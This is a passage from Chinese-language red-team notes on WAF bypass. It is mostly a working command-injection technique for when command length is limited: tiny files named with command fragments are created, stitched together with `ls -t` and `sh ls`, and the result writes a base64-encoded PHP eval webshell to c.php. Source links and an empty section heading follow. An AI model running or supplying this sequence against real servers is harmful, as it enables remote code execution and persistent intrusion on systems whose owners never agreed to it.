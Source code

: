 ```
w>XZh\\
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行,写入Webshell
```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

---

# 来源

![](../../../../assets/img/Security/RedTeam/安防设备/Bypass_WAF/7.jpg)

- [Fuzz_head](https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/HTTP/Fuzz_head.txt)
- [How to hack a company by circumventing its WAF through the abuse of a different security appliance and win bug bounties](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-through-the-abuse-of-a-different-security-appliance-and-win-bug-bounties/) - 利用 ssrf "借刀杀人"

---

# 性能角度
